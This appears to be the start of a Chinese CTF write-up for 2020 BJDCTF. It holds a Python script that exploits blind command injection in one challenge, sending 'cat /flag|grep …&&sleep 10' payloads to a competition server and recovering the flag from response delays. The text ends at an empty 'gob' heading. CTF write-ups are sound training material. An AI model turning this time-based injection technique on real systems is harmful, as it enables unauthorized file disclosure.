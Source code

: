 date: 2020-05-24
categories:
- 比赛
tags:
- wp
- ctf
title: 2020第三届BJDCTF
---
# 2020BJDCTF第三届

##  帮帮小红花 

```php
# -*-coding:utf-8 -*-
import requests
import re

flag_format = re.compile('flag\\{[0-9a-z]{8}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{4}-[0-9a-z]{12}\\}')
all_letter = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ-0123456789abcdefghijklmnopqrstuvwxyz()}{_'


def get_flag(command):
    try:
        r = requests.get('http://183.129.189.60:10071', params={'imagin': command}, timeout=9)
    except:
        return True
    return False


if __name__ == '__main__':
    flag = 'BJD{make_iptables_great_again}'
    while flag_format.match(flag) == None:
        staus = 0
        for i in all_letter:
            payload = 'cat /flag|grep %s &&sleep 10' % (flag + i)
            print(payload)
            if get_flag(payload):
                staus = 1
                flag += i
                print(flag)
                break
        if staus == 0:
            flag = flag[0:-1]

```



##  gob 

